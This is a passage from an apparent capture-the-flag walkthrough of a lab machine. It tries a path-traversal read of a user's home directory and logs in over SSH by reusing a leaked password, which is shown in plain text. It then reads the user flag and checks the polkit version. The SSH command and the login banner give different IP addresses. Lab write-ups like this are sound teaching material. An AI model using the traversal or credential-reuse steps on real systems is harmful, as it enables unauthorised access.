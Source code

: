 ```sh
    drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh  
    -r-------- 1 dwight dwight 33 Mar 25 20:10 user.txt  
    drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
```

We see a file `user.txt`, and now let's read it.

```sh
recyclops file ../../../../../../home/dwight/user.txt

Access denied.
```

From the `nmap` scan we saw also an `ssh` port open, let's try to login there with the user `dwight`and the password obtained before `Queenofblad3s!23`, as there is a possibility of the password reuse.

```sh
ssh dwight@10.10.14.143

The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ED25519 key fingerprint is SHA256:9utZz963ewD/13oc9IYzRXf6sUEX4xOe/iUaMPTFInQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ED25519) to the list of known hosts.
dwight@10.10.11.143's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
```

Now, we are in, and let's read the file `user.txt`.

```sh
cat user.txt
a8eb99f7762420b1c202d7f8753fd441
```

----------

## Task 11

What is the polkit version on the remote host?

`polkit` is an authorization service that is used to allow unprivileged processes to communicate with privileged processes.

```sh
rpm -qa polkit

polkit-0.115-6.el8.x86_64
```

So the version is `0.115-6`.

--------------

